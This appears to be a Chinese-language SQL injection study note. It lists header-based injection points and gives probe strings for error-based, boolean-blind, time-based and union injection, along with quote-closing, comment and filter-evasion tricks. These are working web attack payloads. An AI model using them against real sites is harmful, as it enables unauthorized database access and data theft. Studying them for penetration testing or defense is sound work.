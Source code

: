 很明显的这个接口，页面url，输入框的传参参数是进入了数据库的。或http数据包中数据参数是进入了数据库的。
```
**Header注入**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别 客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、 浏览器插件等。
有些网站为了统计来访为手机还是PC，会存入数据库。
**Cookie注入**
一般是因为后台程序，读取了cookie中的数据，并带入到数据库中执行了
**X-Forwarded-For**
是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源IP地址的一个标准（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件，通过修改XXF 头可以实现伪造IP）
**Referer**
当浏览器向web服务器发送请求的时候，一般会带上 Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用 于处理
Host
有些服务器无论请求什么Host，都有一个默认的Host站点响应时。
```

## **测试是否有注入**
检测报错注入:
```
加\ 转义'
?id=1\    有原生报错回显

加'
?id=1' 有原生报错回显，则存在报错注入，且为 ' 闭合 或 ')闭合。

加"
?id=1"  有原生报错回显，且为 " 闭合 或 ")闭合。

?id = 1 and 1=2 有原生报错回显。
```

检测布尔盲注：
```
?id = 1 and 1=2  报错不显示正常数据，或无原生报错回显。


?id=1' and 1=1 --+  不报错
?id=1" and 1=1 #  不报错
```
实际中少用1=1，防止waf：<https://xz.aliyun.com/t/8020?time__1311=n4%2BxuDgDBAeDqrgDlroGkzD8CDkYeDce4YupD&alichlgref=https%3A%2F%2Fcn.bing.com%2F>

检测时间盲注：
```
?id=1 and sleep(3) 三秒才返回。
```

检测联合注入：
有报错注入，有布尔注入，也可能有联合注入。
有回显，寻找注入点，判断闭合方式，判断列数，进行函数执行回显。
测试当前表的字段数
```
?id =1 ' order by 5 --+  //若到5报错，则此表有4个字段

?id = -1 ' union select 1,2,3,4 --+
?id = -1 union select 1,2,3,4
前报错，后替换回显1,2,3,4
```

^
## **闭合处理**
闭合的原理：
在网站当中存在用户可控制参数，又没有对这个进行严格过滤，导致用户可以用过同样的符号去结束前面的字符内容，执行后面的语句

常见的闭合方式：
* 数字类型(无闭合)
* 单引号 ’
* 双引号 ”
* 括号 ）
* 组合方式 ‘)  ")   '))   "))

闭合后需要用到的注释符去掉后面：
```
--+ --空格

'#'  单行注释,中间用 %23

多行还是用and 'a' = 'a

语句尾部不要也可以这样闭合
;%00
```




^
## **注入类型判断**
### 联合查询
```
页面有回显，可以通过联合查询获取数据
常见于select。

select * from sql_insertion where id =1  order by view_time limit 0,1;
A  B  from sql_insertion where id =C  order by D limit 0,E;
A B可以手工注入
C可以常规注入
D难注入
E难注入
```

### 报错注入
```
页面无直接回显，但是能回显报错信息，可以通过报错函数获取回显数据。
常见于select,insert,delete,update。
```

### 布尔盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过布尔判断，分别sql语句有没有成功，从对数据库进行猜测
常见于select。
```
### 时间盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过页面刷新时间，判断sql语句有没有成功，从对数据库进行猜测
常见于select,insert,delete,update。
```

^
## **过滤和逻辑运算符选择**
```
id = 1 and 1
id = 1 && 1

id = 1 or 1
id = 1 || 1

id=1||0 有0为0
id=1||1 无0为1

id=1^1
id=1^1^1
id=1|1
id=1&1
```
